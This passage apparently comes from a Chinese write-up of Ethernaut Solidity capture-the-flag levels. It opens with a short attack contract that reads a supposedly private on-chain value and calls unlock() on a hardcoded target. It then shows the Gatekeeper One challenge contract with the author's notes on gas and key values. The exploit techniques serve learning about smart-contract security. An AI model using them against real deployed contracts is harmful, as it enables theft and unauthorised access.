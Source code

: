 ```javascript
pragma solidity ^0.6.0;


contract Feng {
    address public target = 0x6d94A5398Ea81aFb2C6961d1f45dfdC347b17996;
    bytes32 public data = 0x6d95528ed3daa151fd935b44136df24bce871b1f40ccaced0e5f4b6d32777209;
    bytes16 public key = bytes16(data);
    function attack() public {
        target.call(abi.encodeWithSignature("unlock(bytes16)",key));
    }
}
```


# Gatekeeper One

感觉很迷的一道题。

```javascript
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    //22220  43321   21101
    //5020   26221
    //0x 00 00 00 11 00 00 3F B8
    //0x 00 00 00 00 00 00 12 12
    //0x7D11f36fA2FD9B7A4069650Cd8A2873999263FB8
    //0x 00 00 3F B8 uint16
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
